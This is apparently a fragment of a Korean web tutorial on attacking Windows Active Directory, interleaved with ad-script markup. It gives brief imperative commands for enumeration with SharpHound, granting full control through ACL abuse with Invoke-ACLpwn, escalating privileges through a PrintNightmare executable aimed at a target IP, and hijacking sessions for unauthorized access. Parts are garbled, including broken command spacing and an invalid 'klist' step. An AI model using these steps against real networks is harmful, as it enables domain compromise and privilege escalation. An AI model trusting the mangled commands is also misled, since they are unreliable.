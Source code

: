 <script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
SharpHound.exe -c All
```

2. 추가 권한을 부여하려면 ACL을 수정하세요.

```js
Invoke - ACLpwn - Domain < 도메인 > -Principal < 사용자 > -AddFullControl;
```

# 프린터 스풀러 서비스 남용



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

- 알려진 취약점을 이용하여 프린트 스풀러 서비스를 악용합니다.
- 해당 서비스를 악용하여 권한을 상승시킵니다.

```js
PrintNightmare.exe <대상_ip>
```

# 타사 세션 남용

- 활성 타사 세션을 식별합니다.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
klist 세션
```

2. 불허된 접근 권한을 얻기 위해 세션을 해킹하세요.
